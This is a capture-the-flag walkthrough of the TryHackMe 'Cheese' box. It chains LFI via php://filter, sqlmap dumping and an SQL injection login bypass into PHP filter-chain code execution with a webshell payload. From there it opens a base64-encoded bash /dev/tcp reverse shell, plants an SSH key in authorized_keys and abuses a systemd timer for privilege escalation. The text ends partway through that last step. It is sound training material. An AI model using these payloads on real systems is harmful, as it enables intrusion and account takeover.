[*← Back to index*](../../README.md)

# Cheese

This Write-up/Walkthrough provides my process for the **Cheese** *(THM)* CTF. Here you will find the solution for the machine. I encourage you to use this as a reference, not a direct solution.

## Scan

The `nmap` scan is completely insane, there are WAY to many open ports. So we're ruling out this quick scan to detect open ports and will limit ourselves to the 100 most common ports. You couldn't possibly do a port-by-port investigation in a couple of hours; it would take weeks (in some cases it might be useful, but this isn't one of them).

This time, I won't be posting scans; instead, I'll share the file I managed to obtain containing the 100 most common ports.

[Common ports](./target.log)

As you can see, port 22 is open, so we know we're dealing with Linux, but I couldn't find any specific information about which distro it is.

There are multipĺe ports using HTTP protocol, I recomend testing them one by one since they offer different services and some require credentials. Then we'll see if we can do anything useful with any of them.

## Pasive recognition

```bash
whatweb 10.113.168.252

ERROR Opening: https://10.113.168.252 - SSL_connect returned=1 errno=0 peeraddr=10.113.168.252:443 state=SSLv3/TLS write client hello: wrong version number
http://10.113.168.252 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[info@thecheeseshop.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.113.168.252], Script, Title[The Cheese Shop]
```

We're looking at an Apache server. Let's explore its website a bit further and use Burpsuite to confirm that it's running on port 80 and isn't redirecting to another port.

*NOTE*: We know it's port 80 because entering: `http://<machine-ip>` works without any issues; you can also verify this yourself using `nmap` or `Burpsuite`



On the home page, we can see several sections; the most interesting one might be the login, but without credentials, we can't do anything yet. Let's run `gobuster` to see what we find:

```bash
gobuster dir -u http://cheese.thm -w /usr/share/wordlists/dirb/common.txt -t 100 -q -r -x txt,php,html,css,js --xl 275

  adminpanel.css       (Status: 200) [Size: 562]
  images               (Status: 200) [Size: 1345]
  index.html           (Status: 200) [Size: 1759]
  index.html           (Status: 200) [Size: 1759]
  login.css            (Status: 200) [Size: 966]
  login.php            (Status: 200) [Size: 834]
  messages.html        (Status: 200) [Size: 448]
  orders.html          (Status: 200) [Size: 380]
  style.css            (Status: 200) [Size: 705]
  users.html           (Status: 200) [Size: 377]
```

Great, we have several useful paths. If we ignore the ones that aren't inmediately obvious, we can see that `/messages.html` contains something very interesting:



If we click the link, we can see in the URL that the message/file is being loaded dinamically:



Since we can manipulate the URL, the first thing I do is search for `/etc/passwd`



Let's download this file to out machine:

```bash
wget http://cheese.thm/secret-script.php?file=php://filter/resource=/etc/passwd
```

The first thing I do is check who users are so we know who we're looking for:

```bash
grep "bash" etc-pwd.txt

  root:x:0:0:root:/root:/bin/bash
  comte:x:1000:1000:comte:/home/comte:/bin/bash
  ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash
```

We know there are two users besides root (normally there would be only one, since Ubuntu ins't usually used in these challenges, but we'll take that into account anyway)

**comte** and **ubuntu**

## Active recognition

Great, we have two credentials. I looked a little further into the URL wrapper, but honestly, I didn't find much. Let's move on to `/login` and see what we can find there. Since the login is a POST request, I'll go to `Burpsuite` and intercept the request. We'll send it to the repeater and try some SQL Injection:



We should save this request to a file on our machine, which we will use later.

Great, at this point I tried some SQL Injection but it didn't work, so I did some reading and found out that we can use `sqlmap` to break into the database:

```bash
sqlmap -r login-form.txt --batch --dbs
```



Then, we execute:

```bash
sqlmap -r login-form.txt --batch -D users --tables
```



Finally:

```bash
sqlmap -r login-form.txt --batch -D users -T users --dump
```



Great, we have the credentials. Let's see what this password is, since it look like a hash:

```bash
echo "5b0c2e1b4fe1410e47f26feff7f4fc4c" | hashid

  Analyzing '5b0c2e1b4fe1410e47f26feff7f4fc4c'
  [+] MD2 
  [+] MD5 
  [+] MD4 
  [+] Double MD5 
  [+] LM 
  [+] RIPEMD-128 
  [+] Haval-128 
  [+] Tiger-128 
  [+] Skein-256(128) 
  [+] Skein-512(128) 
  [+] Lotus Notes/Domino 5 
  [+] Skype 
  [+] Snefru-128 
  [+] NTLM 
  [+] Domain Cached Credentials 
  [+] Domain Cached Credentials 2 
  [+] DNSSEC(NSEC3) 
  [+] RAdmin v2.x
```

After trying to crack it with `john` and [Cyberchef](https://gchq.github.io/CyberChef/) nothing worked, we were back to square one. At this point, I started reading on a bit more on SQL Injection, since it seemed odd to me that `sqlmap` was returning invalid credentials. This mean the credentials weren't working and the developers had set a trap for us, so I found the following:

https://portswigger.net/web-security/sql-injection

After reading this, a question came to mind: What happens if we exploit the SQL Injection in the **username** field instead of **password**?



This didn't work. At this point, I ran into a real challenge because they are too many ways to gain access, and I find it hard to believe that this would be so extensive (the challenge is "Easy"). So I did some in-depth research SQLi (unfortunatelly, the "PayloadAllTheThings" repository didn't give me the payload I needed). I kept searching for a long time, until I found something that gave me an idea for an alternative:

https://tib3rius.com/sqli.html → *Read "Break & Repair Method" section*

Mi idea was: What if instead using `OR` I used `||`, and that worked: 

`' || 1=1 -- -`



Perfect. Getting here and finding exactly what we had already discovered during the passive reconaissance is a sign that this is the attack vector. Next step: find a vulnerability associated with PHP wrappers. First, here's some information on the subject:

- https://hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=PHP%20wrappers#remote-file-inclusion
- https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/
- https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d
- https://github.com/synacktiv/php_filter_chain_generator

If you understand all of the above, it is entirely possible to execute the exploit; you just need to take the time to understand it.

Before moving on, I want to stop and reflect on something I consider more valuable than the exploit itself.

When I ran `gobuster` during passive reconnaissance, I already had on my map exactly where I was going to end up later. I didn't know it with certainty at the time, but the information was already there. Then, after exploiting the form with `sqlmap` and gaining access, I found myself standing in the exact same place `gobuster` had already shown me. First reaction: it felt like going in circles. But it wasn't.

**It was the methodology working the way it should.**

I went through several write-ups of this same room and kept seeing the same pattern: `gobuster` either absent or barely mentioned, and `sqlmap` showing up almost immediately as a first response to a suspicious form. I get the logic — *in a CTF, the goal is the flag, not the process*. But that mindset carries a cost if it gets taken into a real engagement.

An ethical hacker doesn't arrive at a target and start breaking things. First you listen, observe, map. The active phase should be the natural consequence of what passive reconnaissance already revealed, not a shortcut to make up for what you didn't look for beforehand.
The best analogy I can think of for what I saw in those write-ups is this: *blowing the door open with a rocket launcher before checking whether it was already unlocked with a Swiss Army knife*. It works, sure. But it's loud, it leaves traces, and in the real world it can have consequences no CTF is ever going to simulate.

What I found with `gobuster` and what I confirmed with `sqlmap` pointed to the same place. That wasn't redundancy — that was exactly how it was supposed to go.

Now that we've gotten this far, I'd like to point out that once we run `sqlmap`, there's no turning back, since in real life we would have left behind a trail of logs that would give us away — and this would be the final exploit to gain access to the machine and steal everything we can. Let's move on:

Then we run the script we obtained from the test provided in the repository:




Great, we've found the vulnerability; now we just need to feed it the right payload to hijack a parameter:

``"<?=`$_GET[0]`;;?>"``



Remember that we now have the first parameter captured, so we need to run:

`http://cheese.thm/secret-script.php?0=whoami&file=php://filter/convert.iconv.UTF8.CSISO2022KR...`



Great, it worked, and we have what we needed. As I said before, there's no turning back at this point — let's go straight to the reverse shell:

`http://cheese.thm/secret-script.php?0=echo%20L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL2lwL3BvcnQgMD4mMQo=|base64%20-d|%20bash&file=php://filter/convert.iconv.UTF8.CSISO2022KR...`

At first, I ran into issues with the reverse shell, so to avoid any problems, I base64-encoded it, decoded it in the URL, and appened another bash command to the end.



NOTE: To obtain reverse shells, go to https://www.revshells.com/

```bash
www-data@ip-10-114-134-16:/var/www/html$ whoami
whoami
www-data
www-data@ip-10-114-134-16:/var/www/html$ uname -a
uname -a
Linux ip-10-114-134-16 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
www-data@ip-10-114-134-16:/var/www/html$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.6 LTS
Release:        20.04
Codename:       focal
```

After looking into it a bit, I realized that we don't have access to the flag, BUT we do have access to `.ssh` directory.



This is incredible! The `.ssh` directory for the user **comte** has very permissive permisions, and so does the `autorized-keys` file — we can add our RSA key. I already have one created for these challenges but you can create one using:

`ssh-keygen -t rsa -f ctf_key`

Then we copy the `.pub` file and add it to comte's `autorized-keys`:

```bash
www-data@ip-10-114-134-16:/home/comte/.ssh$ echo "ssh-ed25519 AAAA..." >> authorized_keys
```

And we log in via port 22 using our key:

```bash
ssh -i ctf_key comte@<ip>
```



We are in... Now let's go for the first flag:



Great, we've got the first flag. Next I'll use `sudo -l` to see what commands we can run with sudo:



We can execute as `sudo`:

- daemon-reload
- exploit.timer

The firts thing I do is check gto bins: https://gtfobins.org/

There's nothing that can help. I also checked the `cronjobs` and nothing is running. so I looked into what we could run with privileges:

```bash
find / -perm -4000 2>/dev/null
```



Perfect, we know what we can do. The big problem with this one it that it will ask for a password , and we don't have it (you can still check `/etc/passwd`).

The first thing that comes to mind is to look up what "exploit.timer" is:

```bash
comte@ip-10-114-134-16:/$ find / -name exploit.timer 2>/dev/null
/etc/systemd/system/exploit.timer
```

We went there and found the following:



So this service copies the `xxd` binary to `/opt` and sets it to have superuser permissions. Let's run all the commands listed here in order to reload the daemons, start the service and run it:

```bash
comte@ip-10-114-134-16:/etc/systemd/system$ sudo /bin/systemctl daemon-reload 
comte@ip-10-114-134-16:/etc/systemd/system$ sudo /bin/systemctl enable exploit.timer
comte@ip-10-114-134-16:/etc/systemd/system$ sudo /bin/systemctl start exploit.timer
Failed to start exploit.timer: Unit exploit.timer has a bad unit file setting.
See system logs and 'systemctl status exploit.timer' for details.
```

This is strange, since it should be running... After looking through the files a bit more, I realized that we need to set the time in the `exploit.timer` file:





We list the directory to check the permissions of the new binary, and it has superuser permissions:

